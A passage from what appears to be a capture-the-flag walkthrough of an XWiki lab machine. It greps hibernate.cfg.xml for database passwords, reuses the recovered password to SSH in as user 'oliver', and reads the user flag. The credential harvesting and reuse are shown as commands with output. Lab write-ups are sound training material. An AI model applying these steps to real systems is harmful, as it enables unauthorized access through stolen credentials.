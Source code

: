 Let's check out `WEB-INF/hibernate.cfg.xml` and `grep` for `password`.

```bash
xwiki@editor:/usr/lib/xwiki/WEB-INF$ ls -la
total 280
drwxr-xr-x 4 root root   4096 Jul 29 11:48 .
drwxr-xr-x 7 root root   4096 Jul 29 11:46 ..
lrwxrwxrwx 1 root root     16 Mar 27  2024 cache -> /etc/xwiki/cache
drwxr-xr-x 2 root root   4096 Jul 29 11:46 classes
lrwxrwxrwx 1 root root     16 Mar 27  2024 fonts -> /etc/xwiki/fonts
lrwxrwxrwx 1 root root     28 Mar 27  2024 hibernate.cfg.xml -> /etc/xwiki/hibernate.cfg.xml
lrwxrwxrwx 1 root root     41 Mar 27  2024 jboss-deployment-structure.xml -> /etc/xwiki/jboss-deployment-structure.xml
lrwxrwxrwx 1 root root     24 Mar 27  2024 jetty-web.xml -> /etc/xwiki/jetty-web.xml
drwxr-xr-x 2 root root 270336 Jul 29 11:46 lib
lrwxrwxrwx 1 root root     22 Mar 27  2024 observation -> /etc/xwiki/observation
lrwxrwxrwx 1 root root     22 Mar 27  2024 portlet.xml -> /etc/xwiki/portlet.xml
lrwxrwxrwx 1 root root     22 Mar 27  2024 sun-web.xml -> /etc/xwiki/sun-web.xml
lrwxrwxrwx 1 root root     29 Mar 27  2024 version.properties -> /etc/xwiki/version.properties
lrwxrwxrwx 1 root root     18 Mar 27  2024 web.xml -> /etc/xwiki/web.xml
lrwxrwxrwx 1 root root     20 Mar 27  2024 xwiki.cfg -> /etc/xwiki/xwiki.cfg
lrwxrwxrwx 1 root root     28 Mar 27  2024 xwiki-locales.txt -> /etc/xwiki/xwiki-locales.txt
lrwxrwxrwx 1 root root     27 Mar 27  2024 xwiki.properties -> /etc/xwiki/xwiki.properties
```

```bash
xwiki@editor:/usr/lib/xwiki/WEB-INF$ cat hibernate.cfg.xml | grep -i password
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
```

Got the credentials `theEd1t0rTeam99` and `xwiki`. <br>
&rarr; Gonna try to `ssh` to `oliver` user.

```bash
└─$ ssh oliver@editor.htb            
oliver@editor.htb's password: 
oliver@editor:~$ ls -la
total 28
drwxr-x--- 3 oliver oliver 4096 Jul  8 08:34 .
drwxr-xr-x 3 root   root   4096 Jul  8 08:34 ..
lrwxrwxrwx 1 root   root      9 Jul  1 19:19 .bash_history -> /dev/null
-rw-r--r-- 1 oliver oliver  220 Jun 13 09:45 .bash_logout
-rw-r--r-- 1 oliver oliver 3771 Jun 13 09:45 .bashrc
drwx------ 2 oliver oliver 4096 Jul  8 08:34 .cache
-rw-r--r-- 1 oliver oliver  807 Jun 13 09:45 .profile
-rw-r----- 1 root   oliver   33 Aug  3 09:30 user.txt
oliver@editor:~$ cat user.txt
e0745394ba3b705dc26de4aac8838399
```
